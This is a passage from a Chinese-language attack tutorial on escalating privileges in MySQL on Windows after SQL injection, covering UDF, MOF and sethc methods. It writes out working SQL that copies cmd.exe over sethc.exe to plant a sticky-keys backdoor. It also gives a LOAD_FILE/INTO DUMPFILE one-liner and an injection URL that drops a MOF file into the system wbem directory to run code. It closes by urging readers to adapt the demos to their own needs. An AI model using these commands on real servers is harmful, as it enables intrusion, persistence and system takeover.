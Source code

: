 ![enter image description here](http://drops.javaweb.org/uploads/images/2dde11fe6bd1ed937790f3a5623250bd42f995ce.jpg)

因为没有办法去创建一个function所以用注入点实现udf提权在上一步就死了，通过在命令行执行创建function只能算是心灵安慰了，只要完成了create function那一步我们就真的成功了，因为调用自定义function非常简单：

![enter image description here](http://drops.javaweb.org/uploads/images/72cf21cb3389735b836fff80118f0e63350a80b5.jpg)

#### MOF和sethc提权：

MOF和sethc提权我就不详讲了，因为看了上面的udf提权你已经具备自己导入任意文件到任意目录了，而MOF实际上就是写一个文件到指定目录，而sethc提权我只成功模糊的过一次。在命令行下利用SQL大概是这样的：

```
create table mix_cmd( shift longblob);
insert into mix_cmd values(load_file(‘c:\windows\system32\cmd.exe’));     
select * from mix_cmd into dumpfile ‘c:\windows\system32\sethc.exe’;     
drop table if exists mix_cmd;

```

现在的管理员很多都会自作聪明的去把net.exe、net1.exe 、cmd.exe、sethc.exe删除防止入侵。当sethc不存在时我们可以用这个方法去试下，怎么确定是否存在?load_file下看人品了,如果cmd和sethc都不存在那么按照上面的udf提权三部曲上传一个cmd.exe到任意目录。

```
SELECT LOAD_FILE('c:/windows/system32/cmd.exe') INTO DUMPFILE'c:/windows/system32/sethc.exe'

```

MOF大约是这样：

```
http://localhost/SqlInjection/index.jsp?id=1 and 1=2 union select char(ascii转换后的代码),'','','' into dumpfile 'c:/windows/system32/wbem/mof/nullevts.mof'

```

#### Mysql小结：

我想讲的应该是一种方法而不是SQL怎么去写，学会了方法自然就会自己去拓展，当然了最好不要向上面udf那么二。有了上面的demo相信大家都会知道怎么去修改满足自己的需求了。学的不只是方法而是思路切记！